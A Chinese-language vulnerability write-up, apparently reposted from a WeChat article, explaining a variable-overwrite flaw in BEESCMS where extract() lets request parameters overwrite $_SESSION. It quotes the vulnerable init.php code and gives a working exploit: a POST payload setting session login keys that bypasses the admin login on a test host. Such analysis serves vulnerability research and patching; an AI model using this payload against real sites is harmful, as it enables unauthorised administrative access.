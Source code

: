 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lJbWBltD-61TkJ8mbkwKYg)

一、漏洞描述：

init.php 中存在变量覆盖漏洞，而后台判断登陆的代码仅仅用 $_SESSION 一些键值进行了判断，导致覆盖 $_SESSION 的关键值后，可以绕过登陆的判断，从而登陆后台。

二、漏洞分析过程：

定位到漏洞代码：/includes/init.php

首先对参数进行全局过滤，最后用 extract 进行变量的初始化，这里没有值对 flags 进行限制，所以可以导致任意变量覆盖

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vZMHqP2aWQWDQtWDicjB6dqyEclQcpUG6Yoz1oMMkibl8HsUXicYOiaKSTA/640?wx_fmt=png)

并且覆盖之前已经 session_start() 了，所以不会重新初始化，也就是说 $_SESSION 可以被任意覆盖

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vvDmCoYniaZqa3NFMqrF0hqVwI4o3JgjqSoJy0Hp8265tlPuGV2TmlCg/640?wx_fmt=png)

漏洞部分代码：

```
if (!get_magic_quotes_gpc())
{
    if (isset($_REQUEST))
    {
        $_REQUEST  = addsl($_REQUEST);
    }
    $_COOKIE   = addsl($_COOKIE);
  $_POST = addsl($_POST);
  $_GET = addsl($_GET);
}
if (isset($_REQUEST)){$_REQUEST  = fl_value($_REQUEST);}
    $_COOKIE   = fl_value($_COOKIE);
  $_GET = fl_value($_GET);
@extract($_POST);
@extract($_GET);
@extract($_COOKIE);
```

index.php 包含了 init.php

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vmhiaWcA7rPenUqdoW6c5YcA7gAvft1jQ82l8hNqzmia3m2uhTkeefwhA/640?wx_fmt=png)

然后 /admin/admin.php，会包含 /admin/init.php，这里会用 is_login() 函数进行登陆检查

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vFc8ttZs0gYVuwKv9a7HJxrXlExC4cQNNmvFtda3dIbTKBym1cXXSiaw/640?wx_fmt=png)

跟进 is_login() 函数：/includes/fun.php

可以看到这里判断是否登陆，只是判断了 $_SESSION['login_in']==1 并且 $_SESSION['admin'] 有值就行，然后 $_SESSION['time'] 要大于 3600，就判断为已登陆

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vCx86QQ9vAQ9ThEGveOjghsEqenBuibkWKz7jiadZRNaEvw8SlvFmYZGQ/640?wx_fmt=png)

所以我们可以通过变量覆盖漏洞对 $_SESSION 进行操作，让其满足登陆判断的条件，然后即可实现后台登陆的绕过。

三、漏洞利用：

1、访问首页，覆盖变量

```
http://www.beescms.test/index.php
```

POST 数据：

```
_SESSION[login_in]=1&_SESSION[admin]=1&_SESSION[login_time]=99999999999
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vhShNkwFeNeQtYAticyJTiawLx4EBia5gJPKs7zZJ8FBicMIe1zcSL63W2A/640?wx_fmt=png)

2、直接访问后台页面，成功无需登录访问：

```
http://www.beescms.test/admin/admin.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW73WqZeVw6TaDwIEh6uoh3vBStFohxsiaSPPqfFxpw54glae5dqA3aic67DVS9WgL1VgbAZodo2GoTQ/640?wx_fmt=png)
